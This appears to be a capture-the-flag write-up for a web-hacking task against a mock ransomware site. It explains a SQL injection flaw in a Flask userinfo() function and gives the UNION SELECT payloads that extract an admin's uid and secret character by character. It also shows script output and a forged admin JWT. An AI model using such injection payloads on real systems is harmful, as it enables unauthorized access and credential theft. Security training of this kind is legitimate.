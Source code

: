 <!-- HEADER -->
<div align="center">

# [\[<<\]](../Task6/) Task 7 - Privilege Escalation [\[>>\]](../Task8/)
![Category: Web Hacking, [redacted]](https://img.shields.io/badge/Category-Web_Hacking,_[redacted]-informational?style=flat-square)
![Points: 300](https://img.shields.io/badge/Points-300-43853D?style=flat-square)

![Task Screenshot](https://i.imgur.com/4diJM64.png)

</div>

<!-- DESCRIPTION -->
> With access to the site, you can access most of the functionality. But there's still that admin area that's locked off.
> 
> Generate a new token value which will allow you to access the ransomware site *as an administrator*.
> 
> ---
> 
> Enter a token value which will allow you to login as an administrator.
> ```
> ```

## Files
* [provided/](provided/)
	- (empty)
* [genTargetToken.py](genTargetToken.py) - Generates a token given a username

<!-- BREAKDOWN & SOLUTION -->
## Breakdown & Solution
Using the token we generated in the [last task](../Task6/), we can add it to our cookies and try to login. We know that the cookie name is `tok` from the [data file](../Task5/data.txt) we found. While you can do this natively using browser dev tools, I prefer to use a cookie-editor plugin:

![cookie](https://i.imgur.com/v4lXbXp.png)

Now that we should be authenticated, lets go to forum (we saw what pages existed from the [site source](../TaskB2/repo/app/templates/)) and see if we can find anything:

![forum](https://i.imgur.com/ZwhpLtK.png)

Interesting site. Lets get back to the task at hand, we need get an admin token. Going to `/adminlist` we see that the admin `SoggyPlate` is online:

![adminlist](https://i.imgur.com/kmR3aDf.png)

(RIP evil rock 😔😔)

Ok but how are we going to get an admin token? Well we only have limited access to the site. Looking at the [source code](../TaskB2/repo/app/), we can see that `/lock` and `/unlock` aren't much use to us. However, `userinfo()` is pretty interesting:

```py
def userinfo():
	""" Create a page that displays information about a user """			
	query = request.values.get('user')
	if query == None:
		query =  util.get_username()	
	userName = memberSince = clientsHelped = hackersHelped = contributed = ''
	with util.userdb() as con:	
		infoquery= "SELECT u.memberSince, u.clientsHelped, u.hackersHelped, u.programsContributed FROM Accounts a INNER JOIN UserInfo u ON a.uid = u.uid WHERE a.userName='%s'" %query # here!
		row = con.execute(infoquery).fetchone()	
		if row != None:
			userName = query
			memberSince = int(row[0])
			clientsHelped = int(row[1])
			hackersHelped = int(row[2])
			contributed = int(row[3])
	if memberSince != '':
		memberSince = datetime.utcfromtimestamp(int(memberSince)).strftime('%Y-%m-%d')
	resp = make_response(render_template('userinfo.html', 
		userName=userName,
		memberSince=memberSince, 
		clientsHelped=clientsHelped,
		hackersHelped=hackersHelped, 
		contributed=contributed,
		pathkey=expected_pathkey()))
	return resp
```

Notice how the `infoquery` variable is not secure!

Compared to every other selection query we've seen so far:

```py
def validate_token(token):
	# snipped
	row = con.execute('SELECT secret FROM Accounts WHERE uid = ?', (claims['uid'],)).fetchone()
	# snipped

def generate_token(userName):
	# snipped
	row = con.execute("SELECT uid, secret from Accounts WHERE userName = ?", (userName,)).fetchone()
	# snipped
	
def get_username():
	# snipped
	row = con.execute("select userName from Accounts where uid = ?", (uid,)).fetchone()
	# snipped
```

They all use `con.execute("...?...", (var,)).fetchone()` but ours is different! We directly use a string format:
```py
	infoquery= "SELECT u.memberSince, u.clientsHelped, u.hackersHelped, u.programsContributed FROM Accounts a INNER JOIN UserInfo u ON a.uid = u.uid WHERE a.userName='%s'" %query # here!
```

Looking into this online, I found that con execute is secure against SQL injections, but unlike the rest, the one in `userinfo()` is not, these are sloppy mistakes that can be exploited!


We can see that in `userinfo()` it takes a request value of `user`:

```py
def userinfo():
	""" Create a page that displays information about a user """			
	query = request.values.get('user')
	if query == None:
		query =  util.get_username()	
	userName = memberSince = clientsHelped = hackersHelped = contributed = ''
```

This should just be equivalent of doing `/userinfo?user=0xfbad`! Lets try this with the admin's name `SoggyPlate`:

![userinfo](https://i.imgur.com/0Ah3Gvc.pngg)

Nice, so now we need to do a bit of SQL injection to get the admin's secret and user id. We can see that our input goes in that the query returns `memberSince, clientsHelped, hackersHelped, programsContributed`:

```py
if row != None:
	userName = query
	memberSince = int(row[0])
	clientsHelped = int(row[1])
	hackersHelped = int(row[2])
	contributed = int(row[3])
```

What instead we can do enter `'` so the query searches empty usernames (which there are none), then we UNION (combine) and select the information we want, in this case, just the user id. We can use this SQL payload:

```
' UNION SELECT 0, 0, 0, uid FROM Accounts WHERE userName='SoggyPlate' --
```
Lets go to `/userinfo?user=' UNION SELECT 0, 0, 0, uid FROM Accounts WHERE userName='SoggyPlate' --`:

![userinfo](https://i.imgur.com/6gVmwks.png)

Nice we got the admin's uid! (`15861`). Now we need to get the client secret. The issue however is that as we saw in the previous task, the client secret is a string, not a number. So we need somehow convert it to a number. What we'll do is convert the string into hex char by char and then convert it back via char codes:

```
' UNION SELECT 0, 0, 0, unicode(substr(secret, {index}, 1)) FROM Accounts WHERE userName='InexpensivePlastic' --
```

So lets run the [script](./genTargetToken.py) I made to automate this process

```
$ python genTargetToken.py
(..snipped..)

[!] Retrieved client secret:    6E4NYzI4gkMlEcYSZv5z1qaNKCoW2F2P

[*] Generating token with of "SoggyPlate" with uid: 15861 and secret: 6E4NYzI4gkMlEcYSZv5z1qaNKCoW2F2P
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NzA1ODk3NDQsImV4cCI6MTcwMjEyNTc0NCwidWlkIjoxNTg2MSwic2VjIjoiNkU0Tll6STRna01sRWNZU1p2NXoxcWFOS0NvVzJGMlAifQ.3Hh1Q_Yz4SjhogG8FpvaAzUDpBJJqN_drXjb08u2Rt0
```

We got the client secret and thus were able to generate a new token! Lets submit `eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NzA1ODk3NDQsImV4cCI6MTcwMjEyNTc0NCwidWlkIjoxNTg2MSwic2VjIjoiNkU0Tll6STRna01sRWNZU1p2NXoxcWFOS0NvVzJGMlAifQ.3Hh1Q_Yz4SjhogG8FpvaAzUDpBJJqN_drXjb08u2Rt0`.

![Task Screenshot](https://i.imgur.com/7bVNFF1.png)

> ```
> Great! What can we find in the admin area?
> ```

<!-- TL;DR -->
## Technical TL;DR
The site owners left a vulnerable SQL injection in the `userinfo()` function. We were able to use this to get the admin's uid and client secret. Since we can only get back numbers in the response, we convert each char of the secret into its unicode representation and then convert it back into a char to build out the final secret. Then use the same process as task 6 to generate a new token with the admin's uid and secret.

---

<div align="center">

[return to top](#top)

</div>